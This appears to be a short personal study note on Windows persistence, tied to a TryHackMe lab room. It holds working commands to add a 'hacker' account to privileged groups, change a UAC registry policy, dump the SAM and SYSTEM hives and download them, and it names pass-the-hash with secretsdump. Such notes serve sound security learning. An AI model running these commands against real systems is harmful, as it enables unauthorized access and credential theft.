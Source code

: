 # Windows  Persistance

For general overview of persistance that OS neutral: [[Persistence]].

## Tampering With unprivileged Accounts

Unprivileged Accounts less monitored than administrative accounts Assigning Groups Memberships is a direct way to gain administrative privileges.

```powershell
net localgroup administrators hacker /add
net localgroup "Backup Operators" hacker /add # Less suspicious - cant RDP or WinRM
net localgroup "Remote Management Users" hacker /add # Same as the above but can remote in
```

`LocalAccountTokenFilterPolicy` from [[Windows-User-Account-Control]] strips any local account of its administrativge privileges when logging in remotely, to regain those change them in the registery:

```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

With Evil-WinRm (see [[Evil-winrm-Cheatsheet]]) we can backup SAM and SYSTEM files and dowload them 

```powershell
reg save hklm\system system.bak
reg save hklm\sam sam.bak
download system.bak
download sam.bak
```

With [[Impacket-Cheatsheet]] `secretsdump.py` we can dump the hashes of those files, and use Evil-Winrm to perform a pass-the-hash attack.

## Special Privileges and Security Descriptors
[Privilege Constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)



## References
[THM Windows Persistance Room](https://tryhackme.com/room/windowslocalpersistence)